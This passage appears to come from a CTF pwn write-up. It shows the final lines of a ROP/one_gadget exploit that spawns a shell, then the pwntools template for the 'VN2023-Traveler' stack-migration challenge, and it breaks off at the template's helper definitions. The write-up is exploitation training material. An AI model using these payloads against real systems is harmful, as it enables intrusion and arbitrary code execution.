 ```bash
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)


itr()
```

‍

### VN2023-Traveler

限制 0x10 大小的栈迁移

```bash
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node4.buuoj.cn',29758)
else:
    p = process(name)


libcso = '/lib/x86_64-linux-gnu/libc-2.31.so'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
```